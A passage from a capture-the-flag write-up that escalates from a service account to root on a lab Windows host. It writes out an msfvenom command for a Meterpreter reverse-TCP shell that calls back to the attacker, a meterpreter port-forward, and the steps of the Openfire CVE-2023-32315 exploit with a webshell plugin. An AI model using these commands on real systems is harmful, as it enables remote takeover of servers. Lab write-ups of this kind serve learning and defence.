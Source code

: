 <p align="center">
  <img src="images/rev.png" />
</p>

In *C:\Users\svc_openfire\Desktop* there is the user flag.

## 3. User to ROOT

To have a better interaction, I used [msfvenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom) to create an exe for the shell.

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -f exe -o shell`

In parallel I used msfconsole.

Starting to look for information, specifically services running in localhost, I found two ports, 9090 and 9091.

```powershell
PS C:\Users\svc_openfire\Downloads> netstat -ano | findstr '127.0.0.1:' | findstr 'LISTENING'
    tcp    127.0.0.1:53      0.0.0.0:*          LISTEN       0     0      2812/dns.exe
    tcp    127.0.0.1:9090    0.0.0.0:*          LISTEN       0     0      3348/openfire-service.exe
    tcp    127.0.0.1:9091    0.0.0.0:*          LISTEN       0     0      3348/openfire-service.exe
```

To verify the exposed service, I did port forwarding via meterpreter with the command: `meterpreter > portfwd add –l 9091 –p 9091 –r 127.0.0.1`.

<p align="center">
  <img src="images/openfire.png" />
</p>

Trying the credentials of *svc_openfire*, we can login.

<p align="center">
  <img src="images/after_login.png" />
</p>

I started looking for some exploits for Openfire and found [CVE-2023-32315](https://nvd.nist.gov/vuln/detail/CVE-2023-32315) which allows RCE. So I found a [repository](https://github.com/miko550/CVE-2023-32315) that explains step by step how to perform the attack.

1. Run the exploit: `python CVE-2023-32315.py -t http://127.0.0.1:9090`

2. Goto the plugin page and upload plugin *openfire-management-tool-plugin.jar*
<p align="center">
  <img src="images/plugins.png" />
</p>

3. Goto tab Server > Server Settings > Management tool > Access websehll with password *123*
<p align="center">
  <img src="images/after_login_plugin.png" />
</p>

4. In the menu select *system command*
<p align="center">
  <img src="images/menu.png" />
</p>
